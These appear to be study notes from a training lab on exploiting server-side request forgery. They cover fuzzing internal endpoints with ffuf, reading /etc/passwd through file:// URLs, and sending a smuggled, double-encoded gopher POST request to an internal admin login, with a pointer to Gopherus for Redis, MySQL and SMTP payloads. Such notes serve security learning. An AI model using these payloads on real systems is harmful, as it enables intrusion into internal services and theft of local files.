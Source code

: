 # Exploiting SSRF
***
### Accessing Restricted Endpoints
#### When we don't have permissions to access certain directories we can try to access and enumerate the domain through the SSRF vulnerability.
#### Using ffuf  to fuzz for directories to enumerate additional endpoints
#### To filter out any HTTP 403 responses, we should filter based on the String `Server at 1337.co Port 80`, which is contained in default Apache error pages. Also, after checking which extensions the application run we can use it in the fuzz payloads
```bash
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://<WEB_APP_IP>/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

### Local File Inclusion
#### Through SSRF we can try to read local files from the fyle system using the `file://` URL scheme (`file:///etc/passwd`) .

### The gopher Protocol
#### Assuming that when we try to access /admin.php the response returns a login prompt. Furthermore, we can't send a Post request using the `http://` URL scheme.
#### On the other hand we can use the [gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL scheme to send arbitrary bytes to a TCP socket. Enabling us to create a POST request .
```http request
POST /admin.php HTTP/1.1
Host: 1337.org
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
#### Then we need to properly URL encode the entire request in order to build a valid gopher URL, and prefix the data with the gopher URL scheme, the target  host and port, and an underscore , for instance:
```
gopher://1337.org:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%201337.org%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
#### After executing the request , the web server accepts the POST request and responds accordingly. However, since we are sending our URL within the HTTP  POST parameter dateserver, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it.
#### Finally by URL encode the complete gopher URL again, we can send the request, for example:
```http request
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//1337.org%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%25201337.org%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

#### Gopher protocol can be used to interact with many internal services. But we can utilize the [Gopherus](https://github.com/tarunkant/Gopherus) tool to generate gopher URLs.
#### Services supported:
* MySQL
* PostgreSQL
* FastCGI
* Redis
* SMTP
* Zabbix
* pymemcache
* rbmemcache
* phpmemcache
* dmpmemcache


#### Generate valid SMTP URL
```bash
$ gopherus --exploit smtp
```
